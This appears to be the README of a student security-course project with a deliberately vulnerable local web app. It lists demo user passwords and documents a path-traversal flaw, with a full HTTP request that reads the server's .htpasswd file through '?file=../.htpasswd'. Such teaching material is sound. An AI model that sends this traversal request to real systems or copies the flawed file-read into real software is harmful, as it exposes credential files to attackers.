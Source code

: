 LINK: https://github.com/raccna/csb-2021/tree/main/project1/mysite

### Installation

- Install Python
- Optional: Tool for making HTTP requests (eg. Curl, Burp Suite)

Initialize application

```
  ./init.sh
```

Run server

```
  ./run.sh
```

Open browser [http://127.0.0.1:8000/myapp](http://127.0.0.1:8000/myapp)

### Users in database

| Username     | Password    | Role  |
| ------------ | ----------- | ----- |
| john@doe.com | JohnsSecret | Admin |
| jane@doe.com | JanesSecret | User  |
| jim@doe.com  | JimsSecret  | User  |
| jenn@doe.com | JennsSecret | User  |

## FLAW 1: [Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control)

### Source code

Flaw can be found [here](https://github.com/raccna/csb-2021/blob/main/project1/mysite/myapp/views.py#L21)

### Description

Improper implementation of file reading allows attacker to gain access to any file on the server. In the example attacker receives .htpasswd file contents from the application root.

### Exploitation

Request:

```
GET /myapp/flaw-1?file=../.htpasswd HTTP/1.1
Host: 127.0.0.1:8000
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8000/myapp/flaw-1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```